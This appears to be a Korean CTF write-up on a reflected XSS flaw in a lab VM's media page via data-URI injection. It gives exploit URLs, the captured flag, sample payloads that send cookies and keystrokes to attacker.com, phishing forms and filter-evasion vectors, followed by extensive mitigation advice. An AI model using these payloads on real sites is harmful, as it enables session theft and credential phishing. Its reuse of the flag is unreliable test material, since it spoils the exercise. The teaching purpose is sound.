




# 취약점 #5: Media Source 파라미터를 통한 XSS (Cross-Site Scripting)

## 🎯 취약점 유형
**Reflected XSS - Data URI 삽입**
- **OWASP 분류**: A03:2021 - Injection
- **CWE 분류**: CWE-79 - 웹 페이지 생성 중 입력의 부적절한 무력화 (Cross-site Scripting)

---

## 📚 XSS (Cross-Site Scripting)란?

### 기본 개념
**XSS (Cross-Site Scripting)** 는 공격자가 웹 페이지에 악성 스크립트를 삽입하여, 다른 사용자의 브라우저에서 실행되게 하는 공격입니다.

### 왜 위험한가?
```
공격자가 삽입한 JavaScript
  ↓
피해자의 브라우저에서 실행
  ↓
공격자가 피해자의 세션으로 모든 작업 가능
```

**가능한 공격**:
- 🔓 **세션 쿠키 탈취**: 계정 탈취 가능
- 🎣 **피싱**: 가짜 로그인 폼 표시
- ⚙️ **계정 조작**: 피해자 권한으로 작업 수행
- 📱 **키로깅**: 입력 내용 도청
- 🦠 **악성코드 배포**: 다른 사이트로 리다이렉트

### XSS의 3가지 유형

#### 1. Reflected XSS (반사형) ← 이 취약점
```
공격자 → 악성 URL 생성
       ↓
피해자 → URL 클릭
       ↓
서버 → 악성 코드를 응답에 포함
       ↓
피해자 브라우저 → 악성 코드 실행
```

**특징**:
- URL 파라미터에 악성 코드 포함
- 피해자가 URL을 클릭해야 발동
- 한 번만 실행 (저장 안 됨)

**예시**:
```
http://사이트.com/?search=<script>alert(document.cookie)</script>
```

#### 2. Stored XSS (저장형)
```
공격자 → 게시판/댓글에 악성 코드 작성
       ↓
서버 → 데이터베이스에 저장
       ↓
모든 방문자 → 페이지 열람
       ↓
모든 방문자 → 악성 코드 실행
```

**특징**:
- 서버에 영구 저장
- 모든 방문자에게 자동 실행
- 가장 위험한 유형

#### 3. DOM-based XSS
```
악성 URL → 브라우저 JavaScript
         ↓
클라이언트 측에서만 처리
         ↓
악성 코드 실행
```

**특징**:
- 서버 개입 없음
- 순수 클라이언트 측 취약점

---

## 🔍 취약점 발견 과정

### 발견: src 파라미터가 있는 Media 페이지
**URL**: `http://192.168.64.2/index.php?page=media&src=nsa`

홈페이지에 NSA로 연결되는 이미지 링크가 있고, 이것이 `src` 파라미터가 있는 media 페이지로 연결됩니다.



### 1단계: HTML 구조 분석
Media 페이지에 접속하여 HTML을 검사했습니다:

```html
<object data="http://192.168.64.2/images/nsa_prism.jpg"></object>
```

**핵심 관찰**: `src` 파라미터 값이 **정제 없이** `<object>` 태그의 `data` 속성에 직접 삽입됩니다.

**`<object>` 태그란?**
- HTML에서 외부 리소스(이미지, 비디오, PDF 등)를 포함하는 태그
- `data` 속성으로 리소스 URL 지정
- 문제: **JavaScript도 실행 가능!**

### 2단계: 파라미터 조작 테스트
`src` 파라미터가 취약한지 확인하기 위해 값을 변경했습니다:

**테스트 1** - 경로 변경:
```
http://192.168.64.2/index.php?page=media&src=/
```
결과: object 태그 안에 루트 페이지가 포함됨 ✅

**테스트 2** - 유효하지 않은 소스:
```
http://192.168.64.2/index.php?page=media&src=test123
```
결과: `<object data="test123"></object>` ✅

**결론**: 사용자 입력이 검증 없이 HTML에 **직접 반영**됩니다!

### 3단계: Data URI 연구
MDN 문서에서 **Data URI**에 대해 배웠습니다:

**Data URI란?**
- URL에 데이터를 직접 포함하는 방법
- 외부 파일 없이 데이터를 인라인으로 포함
- 이미지, HTML, JavaScript 등 모든 것 가능!

**Data URI 형식**:
```
data:[<mediatype>][;base64],<data>
```

**예시**:
```
이미지:     data:image/png;base64,iVBORw0KGgo...
HTML:      data:text/html,<h1>안녕하세요</h1>
JavaScript: data:text/html,<script>alert(1)</script>
```

**핵심**: `<object>` 태그의 `data` 속성은 Data URI를 포함한 **모든 유효한 URL**을 허용합니다!

### 4단계: XSS Payload 구성

**간단한 XSS Payload**:
```html
<script>alert("XSS")</script>
```

**Base64 인코딩**:
```bash
echo -n '<script>alert("XSS")</script>' | base64
# 출력: PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
```



**왜 Base64로 인코딩하나?**
- URL에 `<`, `>`, `/` 같은 특수 문자가 있으면 문제 발생 가능
- Base64는 안전한 문자만 사용 (A-Z, a-z, 0-9, +, /)
- 브라우저가 자동으로 디코딩해서 실행

**최종 Data URI**:
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
```

**구조 분석**:
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
     ↑         ↑       ↑
  MIME 타입  인코딩   페이로드 (base64)
```

### 5단계: 공격 실행
**악의적인 URL**:
```
http://192.168.64.2/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
```



**결과**: ✅ JavaScript가 실행되고 Flag가 드러났습니다!

**Flag**: `928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`

**실제로 일어난 일**:
```
1. 브라우저가 URL 접속
2. 서버가 HTML 생성:
   <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">
3. 브라우저가 Base64 디코딩:
   data:text/html,<script>alert("XSS")</script>
4. 브라우저가 JavaScript 실행!
5. Flag 표시
```

---

## 💥 공격 방법 (재현)

### 방법 1: 직접 URL 접속
제작된 URL을 방문하기만 하면 됩니다:
```
http://192.168.64.2/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
```

### 방법 2: 인코딩된 HTML (Base64 없이)
```
http://192.168.64.2/index.php?page=media&src=data:text/html,%3Cscript%3Ealert('XSS')%3C/script%3E
```

**URL 인코딩**:
- `<` → `%3C`
- `>` → `%3E`
- `'` → `%27`

### 방법 3: 브라우저 콘솔로 검증

브라우저 개발자 도구를 사용하여 JavaScript 실행을 확인할 수 있습니다:

**단계**:
1. Media 페이지 방문: `http://192.168.64.2/index.php?page=media&src=nsa`
2. 개발자 도구 열기: `F12` (Windows/Linux) 또는 `Cmd+Option+I` (Mac)
3. **Console** 탭 선택
4. 입력: `alert("XSS")`
5. **Enter** 누르기



**결과**: "192.168.64.2 says: XSS" 라는 팝업 알림이 나타남

**이것이 증명하는 것**:
- ✅ JavaScript가 페이지 컨텍스트에서 실행 가능
- ✅ 브라우저 환경이 XSS에 취약
- ✅ `alert()`는 XSS 테스트의 표준 개념 증명(PoC)

**alert()란?**
- JavaScript의 내장 함수
- 브라우저에 경고 팝업을 띄우는 명령어
- XSS 공격이 성공했는지 시각적으로 확인하는 가장 간단한 방법

**중요**: 악의적인 Data URI에 직접 접속할 때, 서버가 XSS 시도를 감지하고 alert 팝업 없이 바로 flag 페이지로 리다이렉트할 수 있습니다. 이것도 **유효한 XSS 취약점 증거**입니다.

### 방법 4: 다양한 Payload들

**1. 커스텀 콘텐츠 표시**:
```html
<!-- Payload -->
<h1 style="color:red">XSS 작동합니다!</h1>

<!-- Base64 -->
PGgxIHN0eWxlPSJjb2xvcjpyZWQiPlhTUyDsnoHrj5ntlanri4jri6QhPC9oMT4=

<!-- URL -->
http://192.168.64.2/index.php?page=media&src=data:text/html;base64,PGgxIHN0eWxlPSJjb2xvcjpyZWQiPlhTUyDsnoHrj5ntlanri4jri6QhPC9oMT4=
```

**2. 쿠키 탈취**:
```html
<script>
document.location='http://attacker.com/steal?cookie='+document.cookie;
</script>
```

**작동 방식**:
```
1. 피해자가 악의적인 링크 클릭
2. JavaScript 실행
3. document.cookie로 쿠키 가져오기
4. 공격자 서버로 쿠키 전송
5. 공격자가 세션 탈취!
```

**3. 키로거 (키 입력 기록)**:
```html
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?key=' + e.key);
};
</script>
```

**위험성**:
- 모든 키 입력이 기록됨
- 비밀번호, 신용카드 번호 등 민감한 정보 유출
- 사용자는 전혀 눈치채지 못함

**4. 피싱 페이지**:
```html
<style>
body { font-family: Arial; margin: 50px; }
.login { width: 300px; padding: 20px; border: 1px solid #ccc; }
</style>
<div class="login">
    <h2>세션이 만료되었습니다 - 다시 로그인하세요</h2>
    <form action="http://attacker.com/phish" method="POST">
        사용자 이름: <input name="user" required><br><br>
        비밀번호: <input type="password" name="pass" required><br><br>
        <button type="submit">로그인</button>
    </form>
</div>
```

**결과**: 피해자가 자격 증명을 입력하면 공격자 서버로 전송됩니다!

### 방법 5: OWASP XSS 필터 우회

[OWASP XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)에서:

```html
<!-- IMG 태그 XSS -->


<!-- SVG XSS -->
<svg/onload=alert('XSS')>

<!-- Body 태그 XSS -->
<body onload=alert('XSS')>

<!-- IFrame XSS -->
<iframe src="javascript:alert('XSS')">
```

모두 Base64로 인코딩하여 Data URI를 통해 주입할 수 있습니다!

---

## 🛡️ 보안 문제 분석

### 1️⃣ 입력 검증 없음

**문제점**: `src` 파라미터가 **어떤** 값이든 검증 없이 허용합니다.

**취약한 코드** (가상):
```php
$src = $_GET['src'];
echo "<object data=\"$src\"></object>";
```

**확인하지 않는 것들**:
- ❌ 유효한 파일 경로인가?
- ❌ 허용된 프로토콜인가? (http, https만)
- ❌ 위험한 프로토콜인가? (javascript:, data:)
- ❌ 파일 확장자가 유효한가?
- ❌ 콘텐츠 타입이 맞는가?

**결과**: 공격자가 원하는 모든 것을 삽입 가능!

### 2️⃣ HTML에 직접 반영

**문제점**: 사용자 입력이 인코딩 없이 HTML에 직접 삽입됩니다.

**공격 흐름**:
```
사용자 입력: data:text/html,<script>alert(1)</script>
    ↓
서버 코드: echo "<object data=\"" . $_GET['src'] . "\"></object>"
    ↓
HTML 출력: <object data="data:text/html,<script>alert(1)</script>"></object>
    ↓
브라우저: JavaScript 실행!
```

**안전한 방법**:
```php
// ❌ 나쁨: 직접 삽입
echo "<object data=\"$src\"></object>";

// ✅ 좋음: htmlspecialchars로 인코딩
echo "<object data=\"" . htmlspecialchars($src, ENT_QUOTES, 'UTF-8') . "\"></object>";
```

**htmlspecialchars가 하는 일**:
```
입력:  <script>alert(1)</script>
출력: &lt;script&gt;alert(1)&lt;/script&gt;

브라우저 표시: <script>alert(1)</script> (텍스트로 표시됨)
브라우저 실행: 안 함! (안전)
```

### 3️⃣ Data URI 허용

**문제점**: Data URI는 URL에 실행 가능한 코드를 직접 포함할 수 있습니다.

**왜 위험한가**:
- 외부 파일이 필요 없음
- 일부 경우 Content Security Policy 우회
- 모든 HTML/JavaScript 포함 가능
- URL 필터링으로 탐지하기 어려움

**Data URI 구조 상세**:
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
│    │         │       │
│    │         │       └─ 페이로드 (base64 인코딩됨)
│    │         └───────── 인코딩 방식
│    └─────────────────── MIME 타입
└──────────────────────── 프로토콜

디코딩하면: <script>alert(1)</script>
```

### 4️⃣ Object 태그가 JavaScript 허용

**문제점**: `<object>` 태그는 JavaScript를 로드하고 실행할 수 있습니다.

**위험한 속성들**:
```html
<!-- JavaScript 프로토콜 -->
<object data="javascript:alert(1)"></object>

<!-- Data URI -->
<object data="data:text/html,<script>alert(1)</script>"></object>

<!-- 외부 HTML -->
<object data="http://evil.com/malware.html"></object>
```

모두 브라우저에서 JavaScript를 실행합니다!

**더 안전한 대안**:
```html
<!-- <object> 대신  사용 -->


<!-- 장점: -->
<!-- - JavaScript 실행 불가 -->
<!-- - 이미지 형식만 허용 -->
<!-- - 브라우저가 이미지 헤더 검증 -->
```

### 5️⃣ Content Security Policy (CSP) 없음

**문제점**: 로드할 수 있는 콘텐츠를 제한하는 CSP 헤더가 없습니다.

**누락된 헤더들**:
```
Content-Security-Policy: default-src 'self'
Content-Security-Policy: object-src 'none'
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
```

**각 헤더의 역할**:
- `default-src 'self'`: 같은 출처의 리소스만 로드
- `object-src 'none'`: `<object>` 태그 완전 차단
- `X-XSS-Protection`: 브라우저 내장 XSS 필터 활성화
- `X-Content-Type-Options`: MIME 타입 스니핑 방지

---

## 🎭 실제 공격 시나리오

### 시나리오 1: 쿠키 탈취
**공격자가 피해자에게 전송**:
```
http://192.168.64.2/?page=media&src=data:text/html;base64,[evil_payload]
```

**Payload** (디코딩됨):
```javascript
<script>
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        session: localStorage.getItem('session'),
        url: window.location.href,
        userAgent: navigator.userAgent
    })
});
</script>
```

**공격 흐름**:
```
1. 피해자가 링크 클릭
2. JavaScript 자동 실행
3. 쿠키와 세션 정보 수집
4. 공격자 서버로 전송
5. 공격자가 피해자로 가장!
```

**결과**: 공격자가 피해자의 세션 쿠키를 훔쳐 피해자로 가장할 수 있습니다!

### 시나리오 2: 피싱 공격
**Payload** (디코딩됨):
```html
<style>
body {
    font-family: Arial;
    margin: 50px;
    background: #f0f0f0;
}
.login {
    width: 350px;
    padding: 30px;
    background: white;
    border-radius: 8px;
    box-shadow: 0 2px 10px rgba(0,0,0,0.1);
}
input {
    width: 100%;
    padding: 10px;
    margin: 5px 0 15px 0;
    border: 1px solid #ddd;
    border-radius: 4px;
}
button {
    width: 100%;
    padding: 12px;
    background: #4CAF50;
    color: white;
    border: none;
    border-radius: 4px;
    cursor: pointer;
}
</style>
<div class="login">
    <h2>⚠️ 보안 알림</h2>
    <p>세션이 만료되었습니다. 다시 로그인하세요.</p>
    <form action="https://attacker.com/phish" method="POST">
        <label>사용자 이름</label>
        <input name="user" required>
        <label>비밀번호</label>
        <input type="password" name="pass" required>
        <button type="submit">로그인</button>
    </form>
</div>
```

**결과**:
- 피해자는 정상적인 로그인 페이지로 착각
- 자격 증명 입력
- 공격자 서버로 전송!

### 시나리오 3: 키로거
**Payload** (디코딩됨):
```javascript
<script>
let buffer = '';
const endpoint = 'https://attacker.com/log';

document.onkeypress = function(e) {
    buffer += e.key;

    // 10자마다 전송 (효율성)
    if (buffer.length >= 10) {
        sendKeys();
    }
};

// 5초마다 자동 전송 (놓치지 않기 위해)
setInterval(sendKeys, 5000);

function sendKeys() {
    if (buffer.length > 0) {
        fetch(endpoint + '?data=' + btoa(buffer));
        buffer = '';
    }
}
</script>
<h1>환영합니다! 계속 탐색하세요...</h1>
```

**결과**:
- 모든 키 입력이 기록됨
- 비밀번호, 신용카드 번호 등 모두 유출
- 피해자는 전혀 눈치채지 못함

---

## 🔧 해결 방법 (Mitigation)

### 1️⃣ 엄격한 입력 검증 구현

**화이트리스트 접근법**:
```php
// 허용된 소스 정의
$allowed_sources = [
    'nsa'    => 'images/nsa_prism.jpg',
    'logo'   => 'images/logo.png',
    'banner' => 'images/banner.jpg'
];

$src = $_GET['src'] ?? 'nsa';

// 화이트리스트와 비교 검증
if (!array_key_exists($src, $allowed_sources)) {
    http_response_code(400);
    die("유효하지 않은 소스입니다");
}

$file_path = $allowed_sources[$src];

// 출력 시 인코딩
echo "<object data=\"" . htmlspecialchars($file_path, ENT_QUOTES, 'UTF-8') . "\"></object>";
```

**장점**:
- ✅ 미리 정의된 소스만 허용
- ✅ 사용자 제어 경로 없음
- ✅ Data URI 불가능
- ✅ XSS 완전 차단

**화이트리스트 vs 블랙리스트**:
```
❌ 블랙리스트 (나쁨):
if (contains($src, 'javascript:') || contains($src, 'data:')) {
    die("차단됨");
}
// 문제: 우회 방법이 너무 많음 (JaVaScRiPt:, &#106;avascript:, etc)

✅ 화이트리스트 (좋음):
if (!in_array($src, $allowed)) {
    die("차단됨");
}
// 장점: 명시적으로 허용된 것만 통과
```

### 2️⃣ 출력 인코딩

**항상 htmlspecialchars 사용**:
```php
// ❌ 나쁨: 직접 삽입
echo "<object data=\"$src\"></object>";

// ✅ 좋음: 인코딩
echo "<object data=\"" . htmlspecialchars($src, ENT_QUOTES, 'UTF-8') . "\"></object>";
```

**htmlspecialchars가 하는 일**:
```
원본: data:text/html,<script>alert(1)</script>
변환: data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;

브라우저 렌더링:
data:text/html,<script>alert(1)</script> (그냥 텍스트로 표시됨)

실행: 안 함! ✅
```

**ENT_QUOTES 플래그의 중요성**:
```php
$input = "test' onerror='alert(1)";

// ENT_QUOTES 없음
htmlspecialchars($input);
// 출력: test' onerror='alert(1)  (작은따옴표 변환 안 됨!)

// ENT_QUOTES 있음
htmlspecialchars($input, ENT_QUOTES);
// 출력: test&#039; onerror=&#039;alert(1)  (안전!)
```

### 3️⃣ Content Security Policy (CSP)

**HTTP 헤더 설정**:
```apache
# Apache 설정
Header set Content-Security-Policy "default-src 'self'; object-src 'none'; script-src 'self'"
Header set X-Content-Type-Options "nosniff"
Header set X-Frame-Options "DENY"
Header set X-XSS-Protection "1; mode=block"
```

**Nginx 설정**:
```nginx
add_header Content-Security-Policy "default-src 'self'; object-src 'none'; script-src 'self'" always;
add_header X-Content-Type-Options "nosniff" always;
add_header X-Frame-Options "DENY" always;
add_header X-XSS-Protection "1; mode=block" always;
```

**각 지시문의 역할**:
```
default-src 'self'  : 같은 출처의 리소스만 로드
object-src 'none'   : 모든 <object>, <embed>, <applet> 태그 차단
script-src 'self'   : 같은 출처의 스크립트만 실행
```

**CSP 효과**:
```html
<!-- 차단됨: Data URI -->
<object data="data:text/html,<script>alert(1)</script>">

<!-- 차단됨: 외부 스크립트 -->
<script src="http://evil.com/malware.js"></script>

<!-- 허용됨: 같은 출처 -->
<script src="/js/app.js"></script>
```

### 4️⃣ 프로토콜 화이트리스트

**위험한 프로토콜 차단**:
```php
function validateURL($url) {
    $parsed = parse_url($url);

    if (!$parsed || !isset($parsed['scheme'])) {
        return false;
    }

    // HTTP와 HTTPS만 허용
    $allowed_protocols = ['http', 'https'];

    if (!in_array(strtolower($parsed['scheme']), $allowed_protocols)) {
        return false;
    }

    // 추가 검증: 호스트가 유효한지
    if (!isset($parsed['host']) || empty($parsed['host'])) {
        return false;
    }

    return true;
}

$src = $_GET['src'];

if (!validateURL($src)) {
    http_response_code(400);
    die("유효하지 않은 프로토콜입니다");
}
```

**차단되는 프로토콜**:
- `javascript:` - 직접 JavaScript 실행
- `data:` - Data URI
- `file:` - 로컬 파일 접근
- `vbscript:` - VBScript 실행
- `about:` - 브라우저 내부 페이지

### 5️⃣ img 태그 사용 (object 대신)

**더 안전한 대안**:
```php
// ❌ object 태그 (위험)
echo "<object data=\"$src\"></object>";

// ✅ img 태그 (안전)
echo "";
```

**img가 더 안전한 이유**:
```
<object> 태그:
- JavaScript 실행 가능 ❌
- HTML 콘텐츠 로드 가능 ❌
- 여러 MIME 타입 허용 ❌

 태그:
- JavaScript 실행 불가 ✅
- 이미지 형식만 허용 ✅
- 브라우저가 이미지 헤더 검증 ✅
```

**img 태그도 조심해야 할 점**:
```html
<!-- ❌ 여전히 위험: onerror 이벤트 -->


<!-- ✅ 안전: 속성 인코딩 -->
" alt="이미지">
```

### 6️⃣ Nonce를 사용한 CSP 구현

**랜덤 nonce 생성**:
```php
// 랜덤 nonce 생성
$nonce = base64_encode(random_bytes(16));

// CSP 헤더 설정
header("Content-Security-Policy: script-src 'nonce-$nonce'");
```

**HTML에서 사용**:
```html
<!-- nonce가 일치하는 스크립트만 실행됨 -->
<script nonce="<?php echo $nonce; ?>">
    // 이 스크립트는 실행됨
    console.log("허용됨");
</script>

<script>
    // 이 스크립트는 차단됨 (nonce 없음)
    alert("차단됨");
</script>

<!-- Data URI XSS도 차단됨 -->
<object data="data:text/html,<script>alert(1)</script>">
<!-- nonce가 없어서 실행 안 됨! -->
```

**nonce의 장점**:
- ✅ 페이지 로드마다 변경됨 (재사용 불가)
- ✅ 공격자가 예측할 수 없음
- ✅ 인라인 스크립트도 안전하게 허용 가능

---

## 📊 영향 평가

### CVSS 3.1 점수: 7.1 (높음)

**공격 벡터 (AV)**: Network - 네트워크를 통해 원격 공격 가능
**공격 복잡도 (AC)**: Low - 매우 쉽게 공격 가능
**필요 권한 (PR)**: None - 인증 불필요
**사용자 상호작용 (UI)**: Required - 피해자가 악의적인 링크 클릭 필요
**범위 (S)**: Changed - 다른 사용자에게도 영향
**기밀성 (C)**: High - 쿠키, 세션 토큰 탈취
**무결성 (I)**: Low - 페이지 콘텐츠 수정 가능
**가용성 (A)**: None - 서비스 중단 없음

### 실제 영향

**성공적인 XSS로 가능한 것**:
- 세션 하이재킹
- 쿠키 탈취
- 피싱 공격
- 키로깅
- 악성코드 배포
- 계정 탈취
- 데이터 유출

**통계** (실제 데이터):
- XSS는 웹 애플리케이션의 **40%**에서 발견됨 (OWASP)
- 평균 발견 시간: 200일
- XSS 유출의 평균 비용: $390만 (IBM, 2023)
- 2023년 가장 흔한 취약점 3위

---

## 📚 참고 자료

- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [CWE-79: Cross-site Scripting](https://cwe.mitre.org/data/definitions/79.html)
- [MDN Data URLs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs)
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [Content Security Policy Reference](https://content-security-policy.com/)

---

## 🛠️ 사용된 도구

- **브라우저 DevTools**: HTML 구조 검사
- **curl**: 커맨드라인 테스트
- **base64**: Payload 인코딩
- **Burp Suite**: (옵션) 요청 가로채기 및 수정

---

## 🎓 핵심 교훈

### XSS의 위험성:
- 사용자 입력을 **절대 신뢰하지 마세요**
- 모든 출력을 **인코딩**하세요
- **화이트리스트**만 허용하세요
- **CSP**로 다층 방어하세요

### 개발자를 위한 조언:
- 입력 검증: 받는 것 제한
- 출력 인코딩: 보여주는 것 인코딩
- CSP: 실행 가능한 것 제한
- 정기 감사: 새로운 취약점 발견

### Data URI의 양날의 검:
- ✅ 유용함: 작은 이미지 인라인 포함
- ❌ 위험함: 실행 가능한 코드 포함 가능
- 💡 해결책: 허용 여부를 신중히 결정

---

**Flag**: `928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`

---
**발견 일시**: 2025년 11월 3일
**심각도**: HIGH (높음)
**재현 난이도**: 쉬움
**CVSS 점수**: 7.1/10
**공격 유형**: Reflected XSS via Data URI Injection
